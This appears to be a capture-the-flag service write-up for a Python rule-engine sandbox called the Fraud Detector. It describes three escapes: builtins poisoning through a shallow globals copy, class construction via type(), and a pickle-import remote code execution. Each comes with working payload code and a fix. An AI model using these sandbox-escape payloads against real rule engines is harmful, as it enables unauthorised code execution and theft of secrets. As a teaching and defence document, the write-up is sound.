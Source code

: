 # The Fraud Detector Service

The service emulates a company internal service for combat fraud. Since the fraud evolves over time, the service provides the rule engine and allows to add rules and to test them. Similar services are used by large companies, like Uber, [https://eng.uber.com/mastermind/](https://eng.uber.com/mastermind/).

The rule is a Python-code which runs in a sandbox. The sandbox cuts the set of available functions and global variables, leaving only "safe" objects. Also, it forbids dangerous import and attribute-access statements by constructing an Abstract Syntax Tree (AST) from the code and examining types if its nodes.

To interact with the rule engine, the service provides an HTTP-based API with four endpoints:

* get_rules() -> [rule_names]
* get_users() -> [users]
* add_rule(name, body) -> result
* check_user(rules, user) -> [fraud_probabilities]

There are no endpoints to add or delete users, all users are predefined. Every user is a dict with various keys: name, surname, age, rating, etc.

For convenience the service includes a website to interact with the API:

As in real life, the rule contents are secret, so the flags are inside them.

![web-site](service.png)

# Known Vulns

## Shallow Copy of Globals Dict

When a user is checked against the rules, the engine constructs the global variables for every rule this way:

```python
BASE_GLOBS = {
    "__builtins__": {**SAFE_FUNCTIONS, **SAFE_OBJS}
}

def run_rule(rule, user):
    globs = BASE_GLOBS.copy()
    globs.update({
        "user": user,
        "fraud_prob": 0
    })

    ast_rule = ast.parse(rule)
    ASTSecurityChecker().visit(ast_rule)

    code = compile(ast_rule, filename="rule.py", mode="exec")
    exec(code, globs)
    fraud_prob = min(100, max(0, globs["fraud_prob"]))

    return fraud_prob
```

The copy of BASE_GLOBS is shallow, which means the "\_\_builtins\_\_" dictionary will be the same across the single rule set. If an attacker overwrites the function in \_\_builtins\_\_, it will be overwritten for all further rules.

The sploit idea is to overwrite the *sha256* function in the first rule to save its arguments in some variable:

```python
def patched_sha256(flag):
    if len(flag) == 32:
        __builtins__["flags"] += [flag]
    return b"f" * 32

__builtins__["flags"] = []
__builtins__["sha256"] = patched_sha256
```

In the end, the set rules which give the contents of the saved variable should be executed. For example, the first character can be got by the following rule:

```python
flags_str = str(flags)
fraud_prob = ord(flags_str[0]) - 32
```

The full sploit can be found at [/exploits/fraud_detector/spl1.py](../exploits/fraud_detector/spl1.py). A half of flags can be stolen using this vuln.

*The fix*: replace shallow copy with the deep copy.

## Ambiguity of the Type Function

It the sandbox, the types can't be constructed the *class* keyword, because Python tries to call \_\_build_class\_\_ function which is not among the permitted objects. But the *type* function can be used not only for getting the type of its argument, but also for constructing own type.

The attributes of user object can be replaced with a special object which overrides operations like addition, length extraction, getting an item by index and so on, saving their arguments for stealing them:

```python
def add(self, flag):
    if len(flag) == 32:
        user["flags"] += [flag]
    return "f" * 32

user["flags"] = []
A = type("A", (), {"__radd__": add, "__add__": add,
                   "__getitem__": lambda *a: "a", "__len__": lambda *a: 42})

user["name"] = user["surname"] = user["registered_at"] = user["favorite_music"] = A()
```

An attacker can execute this code as the first rule and get the saved variables in the further rules, using similar technology as in the previous vuln:

```python
flags = str(user["flags"])
fraud_prob = ord(flags[0]) - 32
``` 

The full sploit can be found at [/exploits/fraud_detector/spl2.py](../exploits/fraud_detector/spl2.py). Another half of flags can be stolen using this vuln.

*The fix*: restrict the *type* function to only accept a single argument.

## Remote Code Execution

To restrict CPU and memory resources, the *check_user* call runs the rule set in the subprocess:

```python
def run_rules_safe(rules, user):
    executor = concurrent.futures.ProcessPoolExecutor(max_workers=1, initializer=set_limits)
    future = executor.submit(run_rules, rules, user)
    return future.result(timeout=2.0)
```

If there was an exception during execution, it will be serialized using a *pickle* module and sent to the parent process. How does the pickle serialize an object of user class? It looks in which module it is declared and *import* that module to find the class declaration inside. So if an attacker manages to fool pickle, its module will be imported without the sandbox. To fool it let us examine the C source of pickle module (file Modules/\_pickle.c in Python):

```c
static int
save_global(PicklerObject *self, PyObject *obj, PyObject *name)
{
    ...
    module_name = whichmodule(obj, dotted_path);
    if (module_name == NULL)
        goto error;
    ...
    module = PyImport_Import(module_name);
    ...
}

...

static PyObject *
whichmodule(PyObject *global, PyObject *dotted_path)
{
    ...
    if (_PyObject_LookupAttrId(global, &PyId___module__, &module_name) < 0) {
        return NULL;
    }
    if (module_name) {
        ...
        if (module_name != Py_None){
            return module_name;
        }
        Py_CLEAR(module_name);
    }
    ...
}
```

So the module can be specified in *\_\_module\_\_* attribute of the object. If to go deeper and analyze the type creation, we see that the \_\_module\_\_ attribute is taken from the \_\_name\_\_ of the module (file Objects/typeobject.c):

```c
static PyObject *
type_new(PyTypeObject *metatype, PyObject *args, PyObject *kwds)
{
    ...
    /* Set __module__ in the dict */
    if (_PyDict_GetItemIdWithError(dict, &PyId___module__) == NULL) {
        if (PyErr_Occurred()) {
            goto error;
        }
        tmp = PyEval_GetGlobals();
        if (tmp != NULL) {
            tmp = _PyDict_GetItemIdWithError(tmp, &PyId___name__);
            if (tmp != NULL) {
                if (_PyDict_SetItemId(dict, &PyId___module__,
                                      tmp) < 0)
                    goto error;
            }
            else if (PyErr_Occurred()) {
                goto error;
            }
        }
    }
    ...    
}
```

To get the full remote code execution, an attacker can create a file to execute, say _spl.py_ using an API and import it using a payload like this:

```python
__name__ = "data.rules.spl"
def exit(this, exc_type, exc_value, exc_traceback):
    raise type("E", (exc_type,), {})()
with type("C", (), {"__enter__": lambda s: None, "__exit__": exit})():
    pwn
```

One more trick used here is how to create an exception. In Python, all exceptions must be inherited from BaseException subclass, but we don't have any of them available. To get one it is possible to create context manager with custom *\_\_exit\_\_* function and cause an exception. The exception type is passed as the second argument of this function.

Another elegant way to get the command execution is:

```python
__name__ = "data.rules.%s"
fraud_prob = type("A", (), {"__gt__": lambda s, o: True, "__lt__": lambda s, o: True})()
```

This allows a malicious object to be passed unchanged after this code:

```python
fraud_prob = min(100, max(0, globs["fraud_prob"]))
```

The full sploit can be found at [/exploits/fraud_detector/spl3.py](../exploits/fraud_detector/spl3.py). All flags can be stolen using this vuln.

*The fix*: don't allow custom exceptions to be thrown in the _run_rules_safe_ function, patch the _type_ function to only accept a single argument.
